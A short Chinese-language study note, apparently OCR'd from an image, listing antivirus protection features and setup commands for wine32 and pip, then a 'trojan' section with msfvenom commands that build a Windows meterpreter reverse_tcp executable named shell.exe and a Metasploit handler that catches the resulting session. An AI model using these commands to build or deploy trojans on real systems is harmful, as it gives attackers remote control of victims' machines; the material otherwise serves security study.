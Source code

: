 ### 监控技术：

**内存监控**：
监控内存，进程，网络数据

**文件监控**：
发现文件存在病毒或者被感染报警

**邮件监控**：
电子邮件病毒拦截

### 网页防护：

阻止网络攻击和不安全的下载

### 行为防护：

提醒用户应用程序可疑的行为





## 安装wine32 

```
dpkg --add-architecture i386 && apt update && apt -y install wine32 
```

让linux去执行一些Windows的程序



## 安装pip 

```
wget https://bootstrap.pypa.io/2.6/get-pip.py 

python2 get-pip.py 

apt-get install python3-pip 

pip install --upgrade pip -i https://pypi.douban.com/simple 

```

Python的应用商店



## 普通木马

```
msfconsole

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.144 lport=4444 -f exe -o shell.exe

# -p windows/meterpreter/reverse_tcp 利用windows/meterpreter/reverse_tcp 生成木马程序
# lhost=192.168.1.144 lport=4444 连接本地ip和端口
# -o shell.exe 生成名为shell.exe的木马程序

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost=192.168.1.144
show options
exploit

background
sessions
```